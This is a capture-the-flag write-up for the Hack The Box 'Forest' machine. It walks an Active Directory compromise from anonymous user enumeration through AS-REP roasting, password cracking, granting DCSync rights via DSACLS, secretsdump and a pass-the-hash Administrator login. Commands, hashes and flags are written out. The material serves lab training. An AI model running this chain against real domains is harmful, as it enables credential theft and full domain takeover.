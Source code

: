 # Forest
Box IP **10.10.10.161**


### Nmap scan

`msf > db_nmap -sC -sV -T4 forest.htb`


### Services
```
53/tcp    open     domain
88/tcp    open     kerberos-sec   Microsoft Windows Kerberos (server time: 2020-02-29 20:23:29Z)
135/tcp   open     msrpc          Microsoft Windows RPC
139/tcp   open     netbios-ssn    Microsoft Windows netbios-ssn
389/tcp   open     ldap           Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open     microsoft-ds   Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open     kpasswd5?
593/tcp   open     ncacn_http     Microsoft Windows RPC over HTTP 1.0
636/tcp   open     tcpwrapped
646/tcp   filtered ldp
3268/tcp  open     ldap           Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open     tcpwrapped
3909/tcp  filtered surfcontrolcpa
5985/tcp  open     http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
7597/tcp  filtered qaz
9389/tcp  open     mc-nmf         .NET Message Framing
```


### Enumerate users

By running rpcclient we get a list of users
```
$ rpcclient -W htb.local -c querydispinfo -U '' -N forest.htb
```
- Administrator
- sebastien
- lucinda
- svc-alfresco
- andy
- mark
- santi


### AS-REP Roasting

By AS-REP Roasting Kerberos users we get **svc-alfresco**'s hash

```
$ python GetNPUsers.py -dc-ip 10.10.10.161 -no-pass -usersfile users.txt -format john htb.local/

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$svc-alfresco@HTB.LOCAL:9947224373e83993d1d53fa912e857ab$c53ca04e34b7755ed64dd46f7431fb7009430a647eb67259223f76361e4a3e1fe38dc95fcaf953e4fd3624abc796b24c9f752adf77e39d25d3408f7e5653e6c3fb52207fa2a6148e0184a69732e92fd46fd9e402c9faacdafc419c656531a08d841454fe2a5e99d73e5aff3e7c9bef9662e926e4641b3726233ad7a83a58a876ba7c1db98781ca2a4b613fc594c5b101a1b22c24d27be80a77fe377e9488a9dc50bc937858d747ea3447165a5e6a95634eb3a592a6847ea93618cb300b4894a882508e1cada18800f101db3d117eda8b1e71f5574e91faf109da5346f64b8c4be2376e29b4aa
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

By cracking the hash with **john** we get the password **s3rvice**

```
$john -wordlist:/usr/share/wordlists/rockyou.txt hash.txt
```


### User Flag

We log in with evil-winrm and we get the first flag

```
$ evil-winrm -u svc-alfresco -p s3rvice -s /root/forest/ -i forest.htb
PS> type ..\Desktop\user.txt
517ad0ec2458ca97af8d93aac08a2f3c
```


### Bloodhound

We use **Bloodhound** to find the Shortest Paths to Domain Admins.
Path: Users belonging to the group **Exchange Windows Permissions** are allowed to modify the Discretionary Access Control List (DACL). With this write permission (WriteDacl), a user of that group can give himself or others any privileges, such as DCSync.


### Create new user

User svc-alfresco belongs to the group of **Account Operators**, so we can create a new user and add it to a group.
```
PS> whoami /all

# Create new user
PS> New-ADUser -Name <user> -SamAccountName <user> -Path "CN=Users,DC=htb,DC=local" -AccountPassword(ConvertTo-SecureString <pass> -AsPlainText -Force) -Enabled $true

# Add user to Exchange Windows Permission group
PS> Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members <user>

# Add user to Remote Management
PS> Add-ADGroupMember -Identity "Remote Management Users" -Members <user>
```


### Assign DCSync rights

We log in with the new user and we change the DACL

```
PS> $Identity = "htb.local\<user>"
PS> $RootDSE = [ADSI]"LDAP://RootDSE"
PS> $DefaultNamingContext = $RootDse.defaultNamingContext
PS> $UserPrincipal = New-Object Security.Principal.NTAccount("$Identity")
PS> DSACLS "$DefaultNamingContext" /G "$($UserPrincipal):CA;Replicating Directory Changes"
PS> DSACLS "$DefaultNamingContext" /G "$($UserPrincipal):CA;Replicating Directory Changes All"
```


### DCSync attack

By performing a DCSync attack with **secretsdump** we get the hashes of each user

```
$ python secretsdump.py htb.local/<user>:<pass>@10.10.10.161 > hashes.txt
```


### Root Flag

We log in as Administrator and we get the second flag

```
$ evil-winrm -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6 -i forest.htb
PS> type ..\Desktop\root.txt
f048153f202bbb2f82622b04d79129cc
```


If you liked this write-up, please leave a respect on my hackthebox

![htbbadge](https://www.hackthebox.eu/badge/image/77747)
